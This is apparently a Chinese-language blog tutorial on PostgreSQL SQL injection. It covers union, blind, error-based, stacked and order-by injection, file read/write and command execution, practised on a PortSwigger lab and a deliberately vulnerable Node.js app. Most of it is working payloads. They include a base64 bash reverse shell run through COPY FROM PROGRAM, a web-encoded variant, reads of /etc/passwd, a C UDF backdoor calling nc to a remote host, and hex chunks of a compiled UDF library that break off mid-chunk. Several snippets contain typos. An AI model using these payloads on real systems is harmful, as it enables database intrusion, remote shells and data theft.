



| 环境 | 版本 |
| --- | --- |
| 服务器 | Linux |
| 数据库 | PostgreSQL 11.13 (Debian 11.13-1.pgdg90+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18+deb9u1) 6.3.0 20170516, 64-bit |
| web | [https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text) |
| docker | postgres:latest|
|PostgreSQL |13.4|

环境依然选择使用docker搭建postgresql，web使用burp的[靶场](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)来对三大注入方式(联合查询，盲注，报错注入)来进行讲解，在练习postgresql注入的同时，也需要本地环境，这里我使用官方提供的镜像来配合练习SQL语句，如果大家有更好的姿势，欢迎各位讨论
## 联合查询注入
联合查询注入，和其他关系型数据库一致，需要存在注入的页面有明显的回显位，只是改变一些语法或者sql语句；其作用就是，在原来的查询的条件的基础上，通过关键字`union`,`union all`，从而拼接恶意SQL语句，将`union`后面的`select` 得到的结果将拼接到前个`select`的结果的后面
> - 若回显仅支持一行数据的话，让`union`前边正常的查询语句返回的结果为空
> - 使用union select进行拼接时，注意前后两个select语句的返回的字段数必须相同，否则无法拼接

`union`,`union all`区别：

- `union`: 对两个结果集进行并集操作，不包括重复行，同时进行默认规则的排序
- `union all`: 对两个结果集进行并集操作，包括重复行，不进行排序；
### 注入流程
这里以burp官方提供的[靶场](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)为例，在判断出注入点之后，注入流程如下：
```sql
1. 确定字段的数量
2. 确定页面回显位
3. 利用已知回显位查询数据
  a.查询数据库基本信息
  b.爆库名
  c.爆表名
  d.爆字段
  e.查询敏感信息
```
#### 确定字段数量
使用`order by`语句，通过拼接数字，可确定字段数量，若大于，则页面错误/无内容，若小于/等于，则页面正常，若错误页面与正确页面一致，更换盲注或报错注入。
```sql
select * from table_name from column_name = 'xxx' order by 3
```
正常页面

错误页面

所以这里确定该表字段数为3
#### 确定页面回显位
在这里知道了字段数为3，那么就要判断回显位了，使用`union select '1','2','3'`将定义的数字显示在页面上，就可以判断页面的回显位了
注意：

- 若确定页面有回显，但是页面中并没有我们定义的特殊标记数字出现，可能是页面现在了单行数据输出，我们让前边的select查询条件返回结果为空即可
- 注意一定要拼接够足够的字段数，否则SQL语句报错。PS：此方法也可作为判断前条select语句的方法之一
- 如果union前面的查询条件返回为空的情况下，也没有标记数字，这时候一般是类型出错，导致无法显示在页面，可以将数字更改未null，如下所示


#### 查询数据
通过前面2步，确定了字段数量以及页面回显位，首先就需要探测相关环境，如下所示：
**探测版本**
```sql
select version();
```
**探测当前用户**
```sql
select user;
```

**探测数据库/模式相关**

```sql
-- 获取当前数据库
select current_database();
-- 获取当前数据库模式/也就是存表的地方
select current_schema;
-- 获取所有的数据库
select datname from pg_database;
-- 获取当前数据库下所有的模式
select distinct schemaname from pg_tables;
-- string_agg(字段,分隔符) 实现group_concat
select string_agg(datname,',') from pg_database;
-- array_to_string(array_agg(字段，分隔符))
select array_to_string(array_agg(datname),',') from pg_database;
```


**获取当前数据库public模式下的表名**

```sql
select tablename from pg_tables where schemaname = 'public'
-- 或者从该库的information_schema.tables获取
select table_name from information_schema.tables where table_schema='public'
```


**获取products表里的列名**
```sql
SELECT attname FROM pg_namespace,pg_type,pg_attribute b JOIN pg_class a ON a.oid=b.attrelid WHERE a.relnamespace=pg_namespace.oid AND pg_type.oid=b.atttypid AND attnum>0 AND a.relname='products' AND nspname='public';
select column_name from information_schema.columns where table_name = 'products';
```


**获取值**

```sql
select name from products
```

## 盲注
### 布尔盲注
postgresql 布尔盲注和其他数据库盲注一样，通过页面对带入数据库永真/假条件返回的内容差异，从而判断是否可以进行布尔盲注。通常页面返回存在/不存在两个结果，就可以判断是否存在布尔注入了。
#### 布尔盲注流程
```sql
1. 判断注入点
2. 求解数据库 
  a. 判断用户/当前数据库长度
  b. 依次求解用户/当前数据库长度
3. 求当前数据库表
  a. 判断当前数据库表的个数
  b. 猜解第一个表的长度
  c. 猜解表的字符串/ascii码值
  d. 依次求解，直到找到所有的表
4. 求某表的列名
  a. 判断该表列名的个数
  b. 猜解第一个列名的长度
  c. 猜解第一个列名的字符串/ascii码值
  d. 依次求解，直到该表中找到所有的列名
5. 求某表的值
  a. 判断字段的个数
  b. 猜解第一个字段的长度
  c. 猜解第一个字段的字符串/ascii码值
  d. 依次求解，直到查询完表中所有的值
```
#### 布尔盲注判断注入点
**and 1=1 恒真**

**and 1=2 恒假**

利用这一特性，我们可以构造payload 通过来页面显示情况来获取数据库数据

#### 布尔盲注常用函数

- ascii()
- substring()/substr()
- length()
#### 布尔盲注手法
**获取当前数据库的用户名**
ascii('p') = 112
```sql
select * from xxx_table where xxx = 'xxx' and ascii(substring((select user),1,1)) = 112
```

依次对字符串求解，当截取到最后一位（+1）时会substring/substr()函数会返回空字符串，ascii对空处理会变成0
所以当第9位为0成立，那么字符串长度为9-1=8位

**获取所有的数据库/模式**
```sql
--postgresql limit用法只能使用limit xx offset xx
select datname from pg_database limit 1 offset 0;
```
判断数据库个数
```sql
select * from xxx_table where xxx = 'xxx' and 3=(select count(datname) from pg_database limit 1 offset 0)
```

判断第一个数据库名的长度

```sql
select * from xxx_table where xxx = 'xxx' and (select length(datname) from pg_database limit 1 offset 0) = 8
```

判断第一个数据库的字符
```sql
select * from xxx_table where xxx = 'xxx' and ascii(substring((select datname from pg_database limit 1 offset 0),1,1)) = 112
```

依次猜解，可获取库/模式的名称，limit 语法固定使用limit xxx offset xxx来写
**获取当前数据库的表**
当前数据库为postgres，schema为public
```sql
-- 首先获取当前数据库、模式下存在多少表
select count(tablename) from pg_tables where schemaname = 'public'
select count(table_name) from information_schema.tables where table_schema='public'
```

```sql
-- 然后获取当前数据库，模式下某表的长度
select length(tablename) from pg_tables where schemaname = 'public' limit 1 offset 0
select length(table_name) from information_schema.tables where table_schema='public' limit 1 offset 0
```

```sql
-- 猜解表名
select ascii(substring(tablename,1,1)) from pg_tables where schemaname = 'public' limit 1 offset 0
select ascii(substring(table_name,1,1)) from information_schema.tables where table_schema = 'public' limit 1 offset 0
```

**获取当前表的字段名**
```sql
-- 首先获取当前字段的个数
SELECT count(attname) FROM pg_namespace,pg_type,pg_attribute b JOIN pg_class a ON a.oid=b.attrelid WHERE a.relnamespace=pg_namespace.oid AND pg_type.oid=b.atttypid AND attnum>0 AND a.relname='products' AND nspname='public';
select count(column_name) from information_schema.columns where table_name = 'products';
```

```sql
-- 获取列名长度
SELECT length(attname) FROM pg_namespace,pg_type,pg_attribute b JOIN pg_class a ON a.oid=b.attrelid WHERE a.relnamespace=pg_namespace.oid AND pg_type.oid=b.atttypid AND attnum>0 AND a.relname='products' AND nspname='public' limit 1 offset 0
select length(column_name) from information_schema.columns where table_name = 'products' limit 1 offset 0;
```

```sql
-- 获取列名值
SELECT ascii(substr(attname,1,1)) FROM pg_namespace,pg_type,pg_attribute b JOIN pg_class a ON a.oid=b.attrelid WHERE a.relnamespace=pg_namespace.oid AND pg_type.oid=b.atttypid AND attnum>0 AND a.relname='products' AND nspname='public' limit 1 offset 0;
select ascii(substr(column_name,1,1)) from information_schema.columns where table_name = 'products' limit 1 offset 0;
```

**获取值**
```sql
select count(id) from products;
```

```sql
select length(name) from products limit 1 offset 0;
```

```sql
select ascii(substr(name),1,1) from products limit 1 offset 0;
```

### 时间盲注
#### 常用函数/表达式

- pg_sleep()
- case when(expr1) then result1 else result2 end
- pg_sleep_for(interval) 
```sql
-- 9.4及之后版本新增
select pg_sleep_for('5 sec')
```

- pg_sleep_until(timestamp with time zone)
```sql
-- 9.4及之后版本新增
postgres=# select now();
 2021-10-08 10:23:54.427797+00

postgres=# select pg_sleep_until('2021-10-08 10:25:20');
 

postgres=# 
```
postgresql 时间盲注和其他数据库时间盲注类似，由于postgresql默认支持堆叠查询，首先在判断数据库时可以利用postgresql特有的pg_sleep()函数来快速判断是否是postgresql
#### 堆叠查询判断数据库

#### 时间盲注示例
同布尔盲注流程一致，在case...when...then...else...end表达式内构造条件判断语句，如果正确执行pg_sleep(),否则不做任何操作，通过延时来获取数据
```sql
select case when(ascii(substr((select datname from pg_database limit 1 offset 0),1,1))>97) then (select 1 from pg_sleep(5)) else 1 end
```

when中的表达式主要用于判断True或者False，同布尔盲注的判断条件
## 报错注入
由于没有找到免费的在线环境，在这里我使用`node.js+express`快速搭建了一个web靶场，用于测试postgresql的报错注入，环境依赖node.js+postgresql，报错注入在postgresql其实不太常见，由于postgresql默认支持堆叠查询，所以通常使用堆叠查询就直接getshell了
```shell
# 拉取postgresql 官方镜像
sudo docker pull postgres
sudo docker run -p 5432:5432 --name postgres -e POSTGRES_PASSWORD=123456 -d postgres
# node 启动web
node app.js
```
相关代码如下：
```javascript
const express = require('express')
const app = new express
app.get('/errorbase', (req, res) => {
    const obj = {
        data: [],
        sql: ''
    }
    try {
        const pg = require('pg')
        var config = {
            host:'192.168.93.131',
            user: 'postgres',
            database: 'postgres',
            password: '',
            port: 5432
        }
        const pool = new pg.Pool(config)
        let id = req.query.id
        let sql = `select * from users where id = '${id}'`
        obj.sql = sql
        pool.connect((err, result) => {
            
        })
        pool.query(sql, (err, result) => {
            try {
                if (err) {
                    throw new Error(err)
                } else {
                    obj.data = result.rows
                    res.send(obj)
                }
            } catch (e) {
                obj.data = ''+e
                res.send(obj)
            }
           
        })
        
    } catch (e) {
        console.log(e)
    }
    

})
app.listen(8080,() => {
    console.log('running!')
})
```
结果如下：


### CAST
原理：类型转化报错
**payload**
```sql
AND 1=CAST((SELECT version()) AS int)
```
**获取数据库版本**
```sql
select * from users where id = '1' and cast((select version()) as int)=1
```

**获取数据库用户**
```sql
select * from users where id = '1' and cast((select user) as int)=1
```

**获取数据库/模式**
```sql
select * from users where id = '1' and cast((SELECT string_agg(datname,',')from pg_database) as int)=1
select * from users where id = '1' and cast((SELECT string_agg(distinct schemaname,',')from pg_tables) as int)=1
```


**获取当前数据库下public的表**
```sql
select * from users where id = '1' and cast((SELECT string_agg(tablename,',') from pg_tables where schemaname='public') as int)=1
```

**获取users表的列名**
```sql
select * from users where id = '1' and cast((SELECT string_agg(column_name,',') from information_schema.columns where table_name='users') as int)=1
```

**获取值**
```sql
select * from users where id = '1' AND 7778=CAST((SELECT string_agg(username,',') from users)::text AS NUMERIC)
```

### ::运算符
原理：用于值或字段之后，效果同 cast，但在语法上简便许多，在需要进行多次转换进行报错的时候无疑是很方便的
```sql
select '1'::text::int
```

**获取当前用户**
```sql
select * from users where id = '1' and (select user::int)=1
```

通过报错注入获取其他数据同cast方式一样，修改核心查询语句即可
## 堆叠注入
postgresql和mssql一样，默认支持多语句，闭合前语句，再使用`;`分隔前后的语句，以达到堆叠查询的目的。
由于堆叠查询的特殊性，也可以利用postgresql的特殊函数`pg_sleep()`快速判断是否是postgresql
**payload**
```sql
?id=1';select pg_sleep(5)--
```

在判断出注入点以及是postgresql且可堆叠查询的情况下，可以使用`CVE-2019-9193`，执行任意命令，反弹shell，从版本[9.3](https://www.postgresql.org/docs/9.3/release-9-3.html)开始，Postgres新增了一个“[COPY TO/FROM PROGRAM](https://paquier.xyz/postgresql-2/postgres-9-3-feature-highlight-copy-tofrom-program/)”功能。这个功能简单来说就是允许数据库的超级用户以及`pg_read_server_files`组中的任何用户执行操作系统命令
```sql
--完整sql语句
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
-- YmFzaCAtaSA+IC9kZXYvdGNwLzE5Mi4xNjguOTMuMTMxLzg4ODggMD4mMQ== 是 bash -i ./dev/tcp/192.168.93.131/8888 0>&1
COPY cmd_exec FROM PROGRAM 'echo YmFzaCAtaSA+IC9kZXYvdGNwLzE5Mi4xNjguOTMuMTMxLzg4ODggMD4mMQ==|base64 -d|bash';
-- 反弹shell这一步可以不用
select * from cmd_exec;
```

在web中由于`+`号会被认为是空格，就会导致字符串被拆解，无法利用，需要对`+`号进行一次url编码，完整payload如下
```sql
?id=1';DROP TABLE IF EXISTS cmd_exec;CREATE TABLE cmd_exec(cmd_output text);COPY cmd_exec FROM PROGRAM 'echo YmFzaCAtaSA%2bIC9kZXYvdGNwLzE5Mi4xNjguOTMuMTMxLzg4ODggMD4mMQ==|base64 -d|bash';--
```

## Order by 注入
order by 注入通常出现在排序中，前端展示的表格，某一列需要进行升序或者降序排列，或者做排名比较的时候常常会用到`order by`排序，`order by`在select语句中，紧跟在`where [where condition]`后，且order by 注入无法使用预编译来防御，由于order by 后面需要紧跟`column_name`，而预编译是参数化字符串，而`order by`后面紧跟字符串就会提示语法错误，通常防御order by 注入需要使用白名单的方式。
通过order by 列名，根据排序返回的情况来判断是否存在，或者使用超大数，构成SQL语句错误
这里我对代码中的sql语句修改一下，如下所示：
```javascript
let sort = req.query.sort
if (sort === undefined) {
  sort = 'id'
}
let sql = `select * from users order by ${sort}`
```

postgresql 的order by 注入，涉及条件相当复杂，由于postgresql order by 后面要紧跟true，或者false，需要使用case...when...then...else...end表达式嵌套SELECT和CASE WHEN语句，直到可以将"布尔盲注成功利用，然后睡眠5秒"转换为"true或false"
```sql
select case when((select case when(select user = 'postgres') then (select true from PG_SLEEP(5)) else false end)) then true else false end
select case when(select user = 'postgres') then (select 1 from pg_sleep(2)) else 1 end

```


如果开启了报错回显，那么可以利用报错注入获取信息


## 二次注入
场景见MySQL注入基础二次注入
## HTTP头部注入
见MySQL注入基础HTTP头部注入
## 文件读/写
文件读写在postgresql中比较方便利用，网上有一些函数( pg_logdir_ls()、pg_ls_dir()、pg_file_rename()、pg_file_write()、 pg_read_file()、pg_length_file())读取/写入，但是又有限制，有的函数也没有，所以以下的方法是肯定能利用的
### 读
创建数据表将读到的文件copy入表
```sql
drop table if exists test;
CREATE TABLE test(t TEXT);
COPY test FROM '/etc/passwd';
SELECT * FROM test limit;
```

### 写
copy 命令写入
```sql
COPY (select '<?php phpinfo();?>') to '/tmp/1.php';
```

## 命令执行
以下是摘抄自[渗透中利用postgresql getshell](https://jianfensec.com/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/%E6%B8%97%E9%80%8F%E4%B8%AD%E5%88%A9%E7%94%A8postgresql%20getshell/)的，暂未复现
### 低版本的命令执行
可以直接调用/lib/libc.so.6或者是/lib64/libc.so.6
一般**8.2**以下的版本可以
```sql
CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE C STRICT;
CREATE FUNCTION system(cstring) RcETURNS int AS '/lib64/libc.so.6', 'system' LANGUAGE C STRICT;
```
直接可以执行
```sql
select system('id');
```
### 高版本的命令执行
#### CVE-2019-9193
见堆叠注入
#### 其他
当postgresql版本高于8.2存在安全机制无法调用系统libc.so.6所以需要自己利用UDF进行命令执行
```sql
ERROR:  incompatible library "xxx.so": missing magic block
HINT:  Extension libraries are required to use the PG_MODULE_MAGIC macro
```
第一步可以先查看postgresql支持的扩展语言:
```sql
select * from pg_language;
```
如果支持python perl就很简单和低版本一样直接创建调用详情可参考以下文章:
[http://static.hx99.net/static/drops/tips-6449.html](http://static.hx99.net/static/drops/tips-6449.html)
当不存在其他扩展语言时,postgresql默认支持C,所以要自己传一个编译好的so库去创建可执行命令函数.这里可以使用简短的反弹shell后门
编译反弹shell后门
```c
#include "postgres.h"
#include "fmgr.h"
#include <stdlib.h>

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

text *exec()
{
    system("nc -./bin/bash vpsIPaddress 2333");
}

```
编译环境需要在/usr/pgsql-9.6/include/server/目录下执行应为存在postgres.h头部调用的库
```shell
gcc hack.c -I`pg_config --includedir-server` -fPIC -shared -o udf.so
strip -sx udf.so #缩减so文件大小
```
将文件hex后去除\n
```shell
cat udf.so | xxd -ps | tr -d "\n"
```
接下来我们需要将udf.so文件分割成每2048字节的块,最后一个块的大小不满足2048字节不需要考虑.
为什么不能小于2048?是因为在postgresql高版本处理中,**如果块之间小于2048,默认会用0去填充让块达到2048字节所以上传的文件才会一直创建函数失败**.
用python脚本去分割udf.so文件,2个16进制数是一个字节所以按照4096个16进制数分割：
```sql
#~/usr/bin/env python 2.7
#-*- coding:utf-8 -*-
import sys
from random import randint
number = randint(1000, 9999)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print "Usage:python " + sys.argv[0] + "inputfile"
        sys.exit()
    fileobj = open(sys.argv[1],'rb')
    i = 0
    t = -1
    s = ''
    for b in fileobj.read():
        i = i + 1
        s += b
        if i % 4096 == 0:
            t = t + 1
            print 'insert into pg_largeobject values ({number}, {block}, decode(\'{payload}\',\'hex\'));\n'\
                    .format(number=number, block=t, payload=s)
            s = ''
    fileobj.close()

```
分割完成后按照下文中的sql语句执行：
1.写入对象
2.创建文件
3.建立函数
4.执行命令
5.清理函数
如果不能反弹shell也可以使用sqlmap提供的UDF命令执行的函数：
[https://github.com/sqlmapproject/udfhack/blob/master/linux/lib_postgresqludf_sys/lib_postgresqludf_sys.c](https://github.com/sqlmapproject/udfhack/blob/master/linux/lib_postgresqludf_sys/lib_postgresqludf_sys.c)
这里我直接给出hex分片过sql语句直接写入即可创建成功（9.6版本测试有效，如果目标是更加新的版本需要对应安装postgresql-dev扩展包编译代码）
```sql
SELECT lo_create(9023);

insert into pg_largeobject values (9023, 0, decode('7f454c4602010100000000000000000003003e0001000000000d0000000000004000000000000000e8210000000000000000000040003800070040001a00190001000000050000000000000000000000000000000000000000000000000000004c140000000000004c1400000000000000002000000000000100000006000000f81d000000000000f81d200000000000f81d200000000000d802000000000000e00200000000000000002000000000000200000006000000181e000000000000181e200000000000181e200000000000c001000000000000c00100000000000008000000000000000400000004000000c801000000000000c801000000000000c80100000000000024000000000000002400000000000000040000000000000050e5746404000000cc11000000000000cc11000000000000cc110000000000006c000000000000006c00000000000000040000000000000051e574640600000000000000000000000000000000000000000000000000000000000000000000000000000000000000100000000000000052e5746404000000f81d000000000000f81d200000000000f81d200000000000080200000000000008020000000000000100000000000000040000001400000003000000474e550052705bc9352a28aa252e8edf0fbc5d4c32e634e800000000030000001a00000002000000070000008440030810890c99880c008dc84400001a0000002100000026000000325e541ea868be124245d5ec2e67541eaa5fbe12bae3927c5f4de3214aad229d32a1f45bd871581cb88df10e25681b32c60da6d4ead3ef0e6637d3ed339268fe000000000000000000000000000000000000000000000000000000000000000003000900580b0000000000000000000000000000de00000012000000000000000000000000000000000000000901000012000000000000000000000000000000000000001c00000020000000000000000000000000000000000000007601000012000000000000000000000000000000000000006f01000012000000000000000000000000000000000000003a0100001200000000000000000000000000000000000000d60000001200000000000000000000000000000000000000110100001200000000000000000000000000000000000000fb0000001200000000000000000000000000000000000000690100001200000000000000000000000000000000000000010000002000000000000000000000000000000000000000c500000010000000000000000000000000000000000000009800000012000000000000000000000000000000000000006301000012000000000000000000000000000000000000000101000012000000000000000000000000000000000000003f0100001200000000000000000000000000000000000000f500000012000000000000000000000000000000000000005d0100001200000000000000000000000000000000000000320100001200000000000000000000000000000000000000610000002000000000000000000000000000000000000000380000002000000000000000000000000000000000000000520000002200000000000000000000000000000000000000dd00000010000000000000000000000000000000000000002d0100001200000000000000000000000000000000000000e300000012000b00d20e0000000000000800000000000000bc00000012000b00850e0000000000004d000000000000008601000010001600d0202000000000000000000000000000b300000012000b007d0e0000000000000800000000000000ec00000012000b00da0e000000000000c3000000000000009901000010001700d82020000000000000000000000000005001000012000b003b1000000000000031010000000000001801000012000b009d0f00000000000008000000000000008300000012000b00ed0d00000000000030000000000000008d01000010001700d02020000000000000000000000000001000000012000900580b00000000000000000000000000002101000012000b00a50f0000000000008e000000000000007500000012000b00e50d00000000000008000000000000001600000012000c006c1100000000000000000000000000004701000012000b00331000000000000008000000000000009f00000012000b001d0e0000000000006000000000000000005f5f676d6f6e5f73746172745f5f005f696e6974005f66696e69005f49544d5f64657265676973746572544d436c6f6e655461626c65005f49544d5f7265676973746572544d436c6f6e655461626c65005f5f6378615f66696e616c697a65005f4a765f5265676973746572436c61737365730050675f6d616769635f66756e6300746578745f7074725f746f5f636861725f707472006d616c6c6f63006368725f7074725f746f5f746578745f7074720070675f66696e666f5f7379735f657865630070675f6465746f6173745f646174756d0073797374656d0070667265650070675f66696e666f5f7379735f6576616c00706f70656e006667657473007265616c6c6f63007374726e6370790070636c6f73650070675f66696e666f5f7379735f62696e6576616c00666f726b00737973636f6e66006d6d617000776169747069640070675f66696e666f5f7379735f66696c657265616400666f70656e00667365656b006674656c6c0066636c6f7365006672656164006c6962632e736f2e36005f6564617461005f5f6273735f7374617274005f656e6400474c4942435f322e322e3500000000000200', 'hex'));
insert into pg_largeobject values (9023, 1, decode('0200000002000200020002000200020002000000000002000200020002000200020002000000000002000000020001000100010001000100010001000100010001000100010001000100010001000000010001007c0100001000000000000000751a6909000002009e01000000000000f81d2000000000000800000000000000b00d000000000000001e2000000000000800000000000000700d000000000000101e2000000000000800000000000000101e200000000000d81f20000000000006000000040000000000000000000000e01f200000000000060000000c0000000000000000000000e81f20000000000006000000150000000000000000000000f01f20000000000006000000160000000000000000000000f81f200000000000060000001700000000000000000000001820200000000000070000000200000000000000000000002020200000000000070000000300000000000000000000002820200000000000070000000500000000000000000000003020200000000000070000000600000000000000000000003820200000000000070000000700000000000000000000004020200000000000070000000800000000000000000000004820200000000000070000000900000000000000000000005020200000000000070000000a00000000000000000000005820200000000000070000002200000000000000000000006020200000000000070000000b00000000000000000000006820200000000000070000000c00000000000000000000007020200000000000070000000d00000000000000000000007820200000000000070000000e00000000000000000000008020200000000000070000000f0000000000000000000000882020000000000007000000100000000000000000000000902020000000000007000000110000000000000000000000982020000000000007000000120000000000000000000000a02020000000000007000000130000000000000000000000a82020000000000007000000140000000000000000000000b02020000000000007000000170000000000000000000000b82020000000000007000000180000000000000000000000c02020000000000007000000190000000000000000000000c820200000000000070000002900000000000000000000004883ec08488b057d1420004885c07405e8c30000004883c408c30000000000000000000000000000ff3582142000ff25841420000f1f4000ff25821420006800000000e9e0ffffffff257a1420006801000000e9d0ffffffff25721420006802000000e9c0ffffffff256a1420006803000000e9b0ffffffff25621420006804000000e9a0ffffffff255a1420006805000000e990ffffffff25521420006806000000e980ffffffff254a1420006807000000e970ffffffff25421420006808000000e960ffffffff253a1420006809000000e950ffffffff2532142000680a000000e940ffffffff252a142000680b000000e930ffffffff2522142000680c000000e920ffffffff251a142000680d000000e910ffffffff2512142000680e000000e900ffffffff250a142000680f000000e9f0feffffff25021420006810000000e9e0feffffff25fa1320006811000000e9d0feffffff25f21320006812000000e9c0feffffff25ea1320006813000000e9b0feffffff25e21320006814000000e9a0feffffff25da1320006815000000e990feffffff25d21320006816000000e980feffff488d05d0132000488d3dc2132000554829f84889e54883f80e77025dc3488b05b41220004885c074f25dffe00f1f4000488d0599132000488d3d92132000554829f84889e548c1f8034889c248c1ea3f4801d048d1f875025dc3488b158f1220004885d274f25d4889c6ffe20f1f4000803d5913200000752748833d7712200000554889e5740c488d3d82102000e82dffffffe868ffffff5dc6053013200001f3c30f1f4000662e0f1f84000000000048833d50102000007426488b05271220004885c0741a55488d3d3a1020004889e5ffd05de957ffffff0f1f8000000000e94bffffff488d05c4030000c355534889fb508b17c1ea028d6afc8d7d014863ffe84afeffff4863d5488d73044889c74889d1f3a4c60410005a5b5dc341544983ccff4c89e15531ed4088e8534889fbf2ae48f7d1488d7903e812feffff4889df4889c24c89e14088e84889def2ae4889df48f7d18d048d0c0000004c89e189024088e8f2ae488d420448f7d14c01e14889c74889d0f3a45b5d415cc3488d0528030000c341554154554889fd5351488b7f20e8a8fdffff4889c74889c3e86dfdffff4989c44889c7e832fdffff4c89e74189c5e8d7fcffff483b5d2074084889dfe809feffff5a5b5d415c4489e8415dc3488d05cf020000c34157415641554154555352488b7f20e852fdffff4889c7e81afdffffbf000400004889c5e84dfdffffbf010000004989c4e840fdffff488d35690200004889efc600004889c331ede869fdffff4989c54c89eabe080000004c89e7e8c6fcffff4885c0743931c04c89e74883c9fff2ae4889df48f7d14c8d71ff468d7c35004963f7e80ffdffff488d3c284963d64c89e64889c34963efe82afcffffebb24c89efe870fcffff803b007405c6442bff00584889df5b5d415c415d415e415fe953fdffff488d0500020000c341545553488b7f20e88efcffff4989c48b28e824fdffff85c07907b801000000eb677555c1ed02bf1e000000e8dafcffff83ed04488d70ff4531c94863ed4531c031ff488d042e48f7d6b921000000ba070000004821c6e8cffbff', 'hex'));
insert into pg_largeobject values (9023, 2, decode('ff4883f8ff4889c374b6498d7424044889ea4889c7e886fbffffffd3eb0eba0100000031f689c7e854fcffff31c05b5d415cc3488d0566010000c341574989ff41564155415455534883ec28488b7f20e8ebfbffff488d7c240f488d3524010000b911000000f3a44889c7e8a0fbffff488d350b0100004889c74989c4e81efcffff4885c04889c3744431f6ba020000004889c7e8c7fbffff4889dfe87ffbffff31d231f64889c54889df4189c5e8adfbffff8d7d014863ffe892fbffff4885c04989c675144889dfe8f2faffff41c6471c0131c0e9830000004889d9ba010000004863f54889c7e8c3faffff4889dfe8cbfaffff8d7c2d014863ffe84ffbffff31d24889c34139d58d04127e23418a041688c183e00fc0e9048a44040f83e10f8a4c0c0f88445301880c5348ffc2ebd548984889dfc6040300e8b1fbffff4889df4889c5e846faffff4c89f7e83efaffff4c89e7e836faffff4889e84883c4285b5d415c415d415e415fc34883ec084883c408c300000000000000000000007200726200303132333435363738394142434445460000000000000000000000010000000100000001000000010000001c0000008a0300006400000020000000400000000100000001000000011b033b680000000c000000b4f9ffff8400000019fcffffac00000021fcffffc400000051fcffffec000000b1fcffff1c010000b9fcffff3401000006fdffff6c0100000efdffff84010000d1fdffffcc010000d9fdffffe401000067feffff140200006ffeffff2c0200001400000000000000017a5200017810011b0c070890010000240000001c00000028f9ffff80010000000e10460e184a0f0b770880003f1a3b2a33242200000000140000004400000065fbffff080000000000000000000000240000005c00000055fbffff3000000000410e108602410e188303440e20670e18410e10410e08002c000000840000005dfbffff6000000000420e108c02480e188603460e208304024c0e18410e10420e0800000000000014000000b40000008dfbffff08000000000000000000000034000000cc0000007dfbffff4d00000000420e108d02420e188c03410e208604440e288305410e30790e28410e20410e18420e10450e0800140000000401000092fbffff080000000000000000000000440000001c01000082fbffffc300000000420e108f02420e188e03420e208d04420e288c05410e308606410e388307410e4002a60e38440e30410e28420e20420e18420e10420e081400000064010000fdfbffff0800000000000000000000002c0000007c010000edfbffff8e00000000420e108c02410e188603410e20830402860e18410e10420e0800000000000014000000ac0100004bfcffff0800000000000000000000004c000000c40100003bfcffff3101000000420e108f02450e188e03420e208d04420e288c05410e308606410e